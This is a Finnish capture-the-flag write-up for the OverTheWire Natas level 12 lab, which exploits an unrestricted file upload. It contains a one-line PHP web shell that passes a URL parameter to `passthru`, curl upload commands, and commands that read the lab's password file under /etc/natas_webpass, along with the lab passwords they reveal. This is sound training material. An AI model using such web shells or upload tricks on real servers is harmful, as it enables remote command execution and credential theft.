# LEVEL 12 - START HERE

natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

Perus ekana tarkistellaan, mitä tässä on koodattukaan 


Jotenkin tässä harjoituksessa huomataan PHP-koodikielestä että **JPEG** - kuva tiedosto maksimi on 1KB (MAX_FILE_SIZE).


Periaatteessa upotin jonkun satunnaisen kuvatiedoston ja testiä ainakin toimii siis et tuli _"There was an error uploading the file, please try again!"_  - mut tämä tapahtuu toisessa uudessa sivuston alla kun jos tulee _error_ ja polku */index.php*. 


## Level 12 - 2 - some testing 
**Virallinen testi ja selvitettään level 12 salasansa** <br>
Perus selvittämistä ja etsitään netistä lisää ohjeita ja lisätietoa, mutta siellä on jotakin testejä että upottaa PHP-koodikielisen scriptin. Rakensin simppelin PHP koodikielen pikaisesti joku **Hello world** Kali Linux:seen , `testi1.php`. Huomioina ennen kuin upottaa ton PHP-scriptin testin sinne natas12 harjoitukseen, niin avaa ohjelmisto työkalu kuin **Burp Suite**. Tämän ohjelma tarjoaa Kali Linux ohjelman alustalla, ja sen versio on suht kattava ettei tarvitse olla mitään _pro / subscribe_ versiot

**Burp Suite**:ssa riittää avaa _History_ välilehden ja seuraa sieltä tarkasti sivussa, kun on upottanut PHP-koodi scriptin Natas 12 levelin alle. Ei ole pakko olla PHP-koodia , että uskon varmasti perus "Hi" tai jotakin tekstiä/sanaa voi syöttää ja ideana se liitteen tiedoston perässä on nimetty **.php**.

```
<?php

echo "Hello World!";

?>

```


(kuvasta jouduin ottaa uuden screenshotin) siksi verrattuna proxy seurannasta näyttää eri numerolta/tiedoston nimeämiseltä)


Tässä se historiasta näkeekin, mitä aikaisemmassa (ylempi kuvassa), kun upotin ton **testi.php** koodi pätkän ja meni varmasti sinne palvelimen polkuun ja vähä kuin lukaisee sitä scipritä/koodin sisältöä (Burp suitessa). Upotetun jälkeen *testi.php* tiedosto piti tulla, mutta miksi yhtäkkiä antoi jotakin satunnaista nimeämistä */upload/t29....jpg* kuva tiedostoa? 

**Proxy** seurannasta näkee mitä upotin ja tässä alettaan suorittaa seuraavaa pientä operaatio.



Eli seuraavaksi muutettaan tuosta **Proxy** --> *Intercept* - välilehden alta, että muutettaan toi kuvatiedosto (alhaalla oleva nuolenpäästä) muutettuna *jpg* --> *php* tiedostoksi ja sitten vaan **Forward**. Tämä (Forward) tarkoittaa silloin sitä, että kun pyyntö on siepattu, hakkeri/testaaja voi päättää lähetetäänkö se eteenpäin palvelimelle — eli antaa HTTP pyynnön jatkaa eteenpäin.


HTTP pyynnöstä lähetettyn jälkeen kannattaa päivittää tämä sivusto normi päivitä sivusto niin huomattua se on muuttunut.


Tämän jälkeen kaksois klikkaa sitä tiedostoa (ylemmän kuvan) mukaista liitettä niin avattuna niin se kertoo tämän **testi.php** skripti/koodi sisällön ja se on _Hello World!_ .


## Level 12 - 3 - find the password

Nyt tässä kappaleessa alettaan selvittää sitä seuraavan level 13 salasansa ja tässä harjoituksessa tapahtui/tapahtui kaltainen tyyppinen kuin etsitään sitä hakemiston polkua eli **/etc/natas_webpass/natasX** . 


Seuraavaksi loin tällaiset HTTP GET skriptin PHP-koodikielellä ja riittää tekstiin sisälle voi olla jotakin, mutta parhaimmillaan että itse tietää ja mahdollisimman lyhyeksi.
 <br>
`<?php passthru($_GET['Vastaus']); ?>` <br> - Sitten upotetun jälkeen normi "Upload file" ja sen jälkeen huomaa tiedosto on upotettu palvelimeen ja muutettu kuvaksi. 


Samanaikaisesti kun tarkistaa **Burp Suite** ohjelman HTTP historiasta että näkee sen saman upotettun tiedoston nimensä (**testi2.php**) ja kuvan tiedoston nimi.


Tämä on sama kuin ylempi kuva, mutta oikealle lisäsin ton firefox selaimen, että varmistettaan on tosi id.


**Seuraavaksi**;
Varmistettaan toi "intercept" on otettu ja kaapattu tämä natas 12 level sivuston tietoja, koskevien tuota upotettu *.php* koodia palvelimelle.




Sitten vaan muuttaa ton **.jpg** kuvan tiedoston **.php**:ksi, ja klikkauksesta **Forward** - niin tämä Burp suite ohjelma lähettää sen HTTP pyynnön sinne Firefox selaimeen.




Vastaan otettu Burp Suite ohjelman Forward - HTTP pyyntö (ylemän kuvan toiminnasta) ja tänne muuttuu se *.php* tiedosto. 



Muista välissä sulkea toi **intercept** , koska jos jatkuvasti seurataan pelkkää tätä linkkiä niin ei toimi ja muutettun jälkeen



Tämä on jotakin tarkistusta, mutta varmuuden vuoksi otin screenshotin.



Nyt alemmassa kuvassa huomioina toi **URL** kentässä näkyy lisäsin perään *Vastaus=ls* - koska oma testi tiedoston koodi pätkässsä on se **"Vastaus"** sana ja katsotaan löytääkö sen mistään skriptien ja muualta hakemiston alta. Tuloksena antoi jotakin loorem ipsum hebreeta dataa.

```
http://natas12.natas.labs.overthewire.org/upload/am34u6tos4.php?Vastaus=ls
ls (linux komento $ls)
```




**Seuraavaksi**: <br>
testataan hakemiston tiedoston URL kuin **=cat /etc/natas_webpass/natas13** - ja tätä sijoittuu sinne URL peräänsä siksi lukee näin:

`http://natas12.natas.labs.overthewire.org/upload/am34u6tos4.php?Vastaus=cat%20/etc/natas_webpass/natas13`
<br><br>

Näin _voila_ saattiin tämän seuraavan level 13 salasansa.






**Mini yhteenveto**:
Tässä harjoituksessa tapahtuu tiedoston upottaminen, mutta siinä tapahtui haavoittuvuutta joka on nimellä (Unrestricted File Upload).

<br><br>
**Unrestricted File Upload** -haavoittuvuus syntyy, kun järjestelmä sallii käyttäjien ladata tiedostoja ilman asianmukaisia tarkistuksia, kuten tiedostotyypin tai koon rajoittamista. Jos tätä ei ole kontrolloitu, hyökkääjä voi ladata haitallisia tiedostoja, kuten skriptejä tai suoritettavia ohjelmia, jotka voivat vaarantaa järjestelmän. Kun haavoittuvuus on "exploitable", se tarkoittaa, että hyökkääjät voivat käyttää sitä käytännössä hyväkseen.

---

## Level 12 - 3 - Kali Linux steppi START HERE;

Tämä on vain sivullinen Kali linux versio, että vähä kuin mentäisiin käyttöliittymän ja selaimen version kautta, ja aina harjoituksen toinen vaihtoehtoinen valinta. Tässä stepissä ei tarvittu **Burp Suite** työkalu ohjelmansa, että riittää runnaa pelkän terminaalinsa.

- `curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB "http://natas12.natas.labs.overthewire.org"`

Normi check tarkistus sivuston alta. 
```
┌──(kali㉿kali)-[~]
└─$ curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB "http://natas12.natas.labs.overthewire.org"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="7fg1oxl9me.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Tämä oli poikkeama steppi, kun en uskonut haettiin PHP - koodipätkän infoa, ja tässä komennossa tapahtuu nuoli kärki menemään PHP tiedostona

```
┌──(kali㉿kali)-[~]
└─$ echo "<?php phpinfo(); ?>" >  kuvat.php
```
<br>

**Seuraavaksi**:
Otettaan skripti tiedosto mitä toistettiin eli `kuvat.php` ja tätä toistettaan siinä curl komennossa, ja komennossa määrittyy kyseisen -F maksimi tiedosto on se 1KB ja millä tiedoston nimellä toistettiin ja upotettuna HTTP protokollaansa.

```
┌──(kali㉿kali)-[~]
└─$  curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB -F "MAX_FILE_SIZE=1000" -F "filename=kuvat.php" -F "uploadedfile=@./kuvat.php" http://natas12.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/q7r2uzojcg.php">upload/q7r2uzojcg.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Siksi tuleksena ja kun tarkistettaan se URL linkki ja perään toi *upload* tiedostonsa, eli `upload/q7r2uzojcg.php` --> http://natas12.natas.labs.overthewire.org/upload/q7r2uzojcg.php



Seuraavaksi halutaan selvittää Natas 13:sen salasansa, mutta periaatteessa samalla ideana ja muuttaa tämän `<?php phpinfo(); ?>` - PHP koodinsa muuttaen haettavaksi hakemiston polun `/etc/natas_webpass/natas13` - ja koska me halutaan määrittää sen samana ideana nuolikärjellä ulos > *tiedosto.php*


Tämä _oli_ aikaisempi virhe _error_ juttuja, mutta varmuuden vuoksi lisäsin tänne sen että miltä se näyttääkään. <br>
**NÄMÄ OVAT VIRHEITÄ**
```
┌──(kali㉿kali)-[~]
└─$ php -r '$p = file_get_contents("/etc/natas_webpass/natas13"); echo $p;'
PHP Warning:  file_get_contents(/etc/natas_webpass/natas13): Failed to open stream: No such file or directory in Command line code on line 1

┌──(kali㉿kali)-[~]
└─$ php -r '$p = file_get_contents("/etc/natas_webpass/natas13"); echo $p;' > kuvat.php
PHP Warning:  file_get_contents(/etc/natas_webpass/natas13): Failed to open stream: No such file or directory in Command line code on line 1


┌──(kali㉿kali)-[~]
└─$ curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB "http://natas12.natas.labs.overthewire.org/upload/7596oxc5k7.php?kuvat=cat%20/etc/natas_webpass/natas13"
$p = file_get_contents("/etc/natas_webpass/natas13"); echo $p;
```




**Seuraavaksi, viralliset testit ja maaliin asti - START HERE**
Kuitenkin aikaisempien säätöä ohjeiden ja vinkkien kanssa mutta nyt päästiin maaliin asti kutienkin. Tässä joutuu aloittaa ikään kuin melkein alusta, mutta toi **PHP-info** kuva oli ainakin yksi toimiva osuus ja jotakin uutta sentään.

```
┌──(kali㉿kali)-[~]
└─$ echo "<?php \$p = file_get_contents('/etc/natas_webpass/natas13'); echo \$p; ?>" > upload.php

┌──(kali㉿kali)-[~]
└─$ curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB -F "MAX_FILE_SIZE=1000" -F "filename=upload.php" -F "uploadedfile=@./upload.php" http://natas12.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/zfz5mxj4y0.php">upload/zfz5mxj4y0.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

┌──(kali㉿kali)-[~]
└─$ curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB "http://natas12.natas.labs.overthewire.org/upload/zfz5mxj4y0.php"
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

```




## Level 12 - 4 - vinkkejä ja ohjeita:

https://samxia99.medium.com/overthewire-updated-natas-walkthrough-level-12-0688ea43ef92 <br>

https://nils-maeurer.de/post/overthewire-natas12-13/ <br>

https://learnhacking.io/overthewire-natas-level-12-walkthrough/ <br>

